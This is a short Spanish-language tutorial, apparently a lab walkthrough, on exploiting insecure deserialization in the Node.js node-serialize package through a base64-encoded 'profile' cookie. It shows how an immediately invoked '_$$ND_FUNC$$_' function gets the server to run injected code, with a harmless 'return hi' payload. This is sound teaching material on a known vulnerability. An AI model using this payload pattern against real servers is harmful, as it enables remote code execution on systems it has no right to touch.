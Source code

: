iniciar servidor:

```bash
node server.js
```

si vemos la cookie **profile** tiene data encriptada en formato json

```json
{
	"username":"Aditya",
	"country":"india",
	"city":"Delhi"
}
```

Si cambiamos los valores de este objeto JSON y codificamos en base64 el objeto y reemplazamos el valor de nuestra cookie actual, el valor modificado se refleja en la página web.

vamos a provecharnos de esto:

Primero, creemos un script de Node.js para serializar nuestro código. (serialization.js)

```javascript
var serialize = require('node-serialize');

x = {
test : function(){ return 'hi'; }
};

console.log("Serialized: \n" + serialize.serialize(x));

```

```bash
node serialization.js
```

output:

```javascript
Serialized:
{"test":"_$$ND_FUNC$$_function (){ return 'hi'; }"}
```

Si reemplazamos el valor del parámetro de nombre de usuario con el valor del parámetro de prueba (desde arriba), el servidor no ejecutará esta función. Necesitamos hacer que esta función se invoque a sí misma agregando ()después de la función. Entonces el objeto se veria asi:

```bash
{"username": "_$$ND_FUNC$$_function (){ return 'hi'; }()" ,"country":"india","city":"Delhi"}
```

lo encodeamos en base64

```base64
eyJ1c2VybmFtZSI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7IHJldHVybiAnaGknOyB9KCkiICwiY291bnRyeSI6ImluZGlhIiwiY2l0eSI6IkRlbGhpIn0=
```

si lo reemplazamos en la cookie **profile** se reflejara en la pagina "hello hi" (el hi de la funcion que agregamos)
